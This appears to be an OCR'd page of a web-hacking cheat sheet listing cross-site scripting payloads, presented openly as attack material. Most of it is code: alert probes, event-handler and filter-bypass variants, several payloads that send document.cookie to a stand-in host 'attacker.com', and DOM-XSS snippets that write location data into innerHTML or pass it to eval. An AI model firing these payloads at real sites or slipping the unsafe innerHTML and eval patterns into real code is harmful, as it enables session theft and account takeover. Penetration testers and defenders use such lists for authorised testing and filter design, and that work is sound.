 # Advanced Web Application Hacking Techniques and Payloads

## Cross-Site Scripting (XSS) Advanced Payloads

### Reflected XSS Payloads
```javascript
// Basic XSS Payloads
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">

// Advanced XSS Payloads
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
<script>new Image().src='http://attacker.com/keylog?key='+escape(document.location)</script>
<script>document.location='http://attacker.com/phish?cookie='+document.cookie</script>

// XSS with Event Handlers
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus><option>test</option></select>
<textarea onfocus=alert('XSS') autofocus>test</textarea>

// XSS Filter Bypass
<ScRiPt>alert('XSS')</ScRiPt>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
<img src="javascript:alert('XSS')">
<svg/onload=alert('XSS')>
```

**Documentation**: XSS payloads for executing malicious JavaScript in victim browsers.
**Limitations**: Content Security Policy (CSP) can block XSS; modern browsers have built-in XSS protection.

### Stored XSS and DOM-based XSS
```javascript
// Stored XSS Payloads
<script>document.write('<img src="http://attacker.com/steal?cookie='+document.cookie+'">')</script>
<iframe src="data:text/html,<script>parent.location='http://attacker.com/steal?cookie='+parent.document.cookie</script>">

// DOM-based XSS
// URL: http://example.com/page?name=<script>alert('XSS')</script>
document.getElementById('output').innerHTML = location.search.substring(1);

// Advanced DOM XSS
location.hash = '#<img src=x onerror=alert(document.domain)>';
eval(location.hash.substring(1));
```
